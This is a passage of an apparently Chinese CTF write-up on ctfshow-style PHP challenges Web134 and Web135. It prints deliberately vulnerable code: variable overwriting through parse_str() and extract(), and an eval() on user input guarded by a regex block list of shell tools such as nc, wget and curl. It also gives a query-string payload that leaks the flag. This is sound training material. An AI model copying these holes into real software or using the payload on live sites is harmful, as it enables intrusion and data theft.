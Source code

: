 ## Web134：parse_str()和extract()变量覆盖

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-14 23:01:06

*/

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

payload：有点骚不过之前有类似的题目

```
/?_POST[key1]=36d&_POST[key2]=36d
```

## Web135

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 18:48:03

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```
